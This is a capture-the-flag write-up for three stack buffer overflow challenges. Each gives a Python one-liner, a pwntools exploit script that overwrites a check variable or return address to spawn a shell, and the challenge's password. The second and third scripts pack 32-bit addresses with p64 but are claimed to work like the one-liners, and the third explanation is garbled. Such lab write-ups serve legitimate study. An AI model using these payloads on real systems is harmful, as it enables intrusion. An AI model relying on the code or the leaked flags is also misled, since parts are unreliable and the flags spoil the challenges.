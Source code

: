 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we give the buffer value as 40 and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

```
from pwn import *
io = process("./ch13")
payload = b"A"*40
payload += p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``

# ***STACK BUFFER OVERFLOW BASIC 2***

From the given the challenge we give the buffer value as 128 and here if we need to call the shell function.

Then we get the interactive shell


```cat <(python -c "print 'A' * 128 + '\x16\x85\x04\x08'") - | ./ch15```

```
from pwn import *
io = process("./ch15")
payload = b"A"*128
payload += p64(0x08048516)
io.sendline(payload)
io.interactive()
```
For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ```B33r1sSoG0oD4y0urBr4iN```

# ***STACK BUFFER OVERFLOW BASIC 3***

From the given challenge we can give the buffer as 64 and giving the address of check we can get the interactive but here we don't get.

The program reads one character each time it compares, it removes the cases of 0x04 , 0x90 and become subscript.

Since it is removing those cases we can't fill the buffer, but as there subscript we can use negative numbers.

```cat <(python -c "print '\x08\x08\x08\x08' + '\xbc\xfa\xff\xbf'") - | ./ch16```

```
from pwn import *
io = process("./ch16")
payload = b"\x08"*4
payload += p64(0xbffffabc)
io.sendline(payload)
io.interactive()
```
For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ```Sm4shM3ify0uC4n```
